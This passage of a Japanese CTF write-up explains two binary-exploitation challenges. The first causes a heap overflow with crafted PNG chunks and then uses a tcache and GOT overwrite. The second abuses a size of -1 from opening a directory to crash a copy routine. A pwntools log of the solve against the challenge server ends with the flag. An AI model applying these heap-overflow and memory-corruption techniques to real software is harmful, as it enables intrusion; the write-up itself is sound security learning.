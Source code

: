 ということで、IHDR（小）、IHDR（大）、IDAT（大）の組み合わせのPNGを入れると、IHDR（小）のサイズで確保した領域にIDAT（大）が展開されるため、めでたくヒープオーバーフローを起こします。あとはno-pieなので、tcacheを書き換えて、適切なGOTを`give_flag1`, `give_flag2`に書き換えて終了です。3時間ほどかかりました。

# Copy & Paste

Warmupの位置づけの問題です。

指定したファイルをバッファに展開してくれます。これもSEGVハンドラにフラグを表示する関数があるので、クラッシュが目標になります。

ディレクトリを開くと　-1が返ってきたまま処理が進むので、なんとでもなりそうだなと思って、コピーソースにして終わり。と思いましたが、特に何も起こりません。

`memcpy`内の処理を追ってみると、どうもサイズが0xffffffffffffffffの時はそのサイズのままでコピーせず、srcとdstのポインタの差分を計算して処理するようになっていて、結果としてクラッシュしません。

一方でそのバッファは、size=-1として `char *ptr = malloc(sizeof(char)*(size+1));` で取得されるため非常に小さく、受け手になっても弱そうです。ここで、とりあえず大きなファイルをコピーしてみようと思い立ってやってみると、フラグが表示されました。

```
[+] Opening connection to 35.236.188.145 on port 8190: Done
[DEBUG] Received 0x61 bytes:
    b'1. Create new buffer and load file content\n'
    b'2. Copy some buffer to another\n'
    b'3. Exit\n'
    b'Enter command: '
[DEBUG] Sent 0x2 bytes:
    b'1\n'
[DEBUG] Received 0x11 bytes:
    b'Enter file name: '
[DEBUG] Sent 0x8 bytes:
    b'/bin/sh\n'
[DEBUG] Received 0x80 bytes:
    b'Read 133880 bytes from /bin/sh\n'
    b'1. Create new buffer and load file content\n'
    b'2. Copy some buffer to another\n'
    b'3. Exit\n'
    b'Enter command: '
[DEBUG] Sent 0x2 bytes:
    b'1\n'
[DEBUG] Received 0x11 bytes:
    b'Enter file name: '
[DEBUG] Sent 0x5 bytes:
    b'/tmp\n'
[DEBUG] Received 0x79 bytes:
    b'Read -1 bytes from /tmp\n'
    b'1. Create new buffer and load file content\n'
    b'2. Copy some buffer to another\n'
    b'3. Exit\n'
    b'Enter command: '
[DEBUG] Sent 0x2 bytes:
    b'2\n'
[DEBUG] Received 0x14 bytes:
    b'Enter source index: '
[DEBUG] Sent 0x2 bytes:
    b'0\n'
[DEBUG] Received 0x19 bytes:
    b'Enter destination index: '
[DEBUG] Sent 0x2 bytes:
    b'1\n'
[] Switching to interactive mode
[DEBUG] Received 0xb bytes:
    b'Well done!\n'
Well done!
[DEBUG] Received 0x2d bytes:
    b'IERAE{7h3_f1rs7_s73p_7o_b3_4_pwn3r_51a7806b}\n'
IERAE{7h3_f1rs7_s73p_7o_b3_4_pwn3r_51a7806b}
```